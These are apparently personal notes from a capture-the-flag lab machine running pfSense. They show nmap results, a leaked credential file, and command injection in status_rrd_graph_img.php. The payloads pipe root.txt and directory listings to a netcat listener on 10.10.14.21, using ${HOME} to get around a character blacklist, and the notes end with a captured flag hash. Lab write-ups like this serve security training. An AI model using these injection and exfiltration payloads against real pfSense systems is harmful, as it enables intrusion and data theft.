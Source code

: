 # Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/sense 10.10.10.60

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
```

# Port 443
gobuster

finds a system-users.txt file
```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

guess pwd of pfsense? yay it works.

# pfsense application
exp script wont work.
```
https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh
```

exfil with nc.
```
;echo eljay | nc 10.10.14.21 9001
```

cant do a revshell?
`/` is blacklisted. So is `&`

root.txt:
```
queues;cat+${HOME}root${HOME}root.txt+|+nc+10.10.14.21+9001
```

find the user on the box:
```
queues;find+${HOME}home|+nc+10.10.14.21+9001

/home
/home/.snap
/home/rohit
/home/rohit/.tcshrc
/home/rohit/user.txt
```

user.txt:
```
8721327cc232073b40d27d9c17e7348b
```